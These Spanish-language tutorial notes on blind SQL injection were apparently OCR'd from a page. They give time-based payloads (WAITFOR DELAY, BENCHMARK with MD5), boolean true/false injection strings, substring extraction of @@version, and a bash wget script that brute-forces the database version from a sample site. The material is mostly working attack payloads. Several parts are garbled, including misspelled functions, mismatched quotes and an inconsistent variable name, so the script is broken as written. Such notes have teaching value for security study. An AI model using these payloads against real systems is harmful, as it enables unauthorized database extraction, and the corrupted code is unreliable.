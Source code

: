 Usada para inferir a TRUE condition de un FALSE condition

![This SQL syntax is used: 
SSQL condi t ions wai t for delay](file:///C:/Users/fredd/AppData/Local/Temp/msohtmlclip1/02/clip_image001.png)

Si la condición es TRUE, el DBMS demorar 6 segundos

Ejemplos:

|   |   |
|---|---|
|If (select user) = 'sa' wait for delay '0:0:5'|Ver si somos sa en MS SQL|
|IF EXISTS (SELECT * FROM users WHERE username = 'armando') BENCHMARK (1000000,MD5(1))|Inferir un DB value en MySQL. Benchmark hara la función MD5(1) 100000 veces si el IF clause produce TRUE (consumiendo tiempo)|

Tener cuidado con BENCHMARK, esto puede impactar en la carga del servidor

# Casos de ejemplo

Vemos el comportamiento de la página con un caso TRUE/FALSE

|   |   |
|---|---|
|Band=Hello' and  'a'='a|Caso True|
|Band=Hello' and  'a'='b|Caso False|

Ahora para extraer la versión, probamos con substrings

|   |   |
|---|---|
|Band=Hello' rbstring(@@version,1,1)='5|Probamos desde el valor 0 hasta un valor que muestra algún output diferente según el TRUE o FALSE|

Podemos automatizar esta tarea con el siguiente script. Usamos \ para los símbolos especiales para que el shell los interprete como símbolos del código. Tambien declaramos la true condition en este caso.

>nano blind1.sh

#!/bin/bash

charset='echo {0..9} {A..Z} \. \: \, \; \- \_ \@'

export URL="http://blind.sql.site/banddetails.php"

export  trustring='We worked with them in the past."

for i in $charset

do

wget "$URL?band=the offspring' and substring(@@version,1,1)='$i' -q -O - | grep "$truestring' &> /dev/null

if [ "$?" == "0" ]
then
echo Character found: $i
Break
fi
done
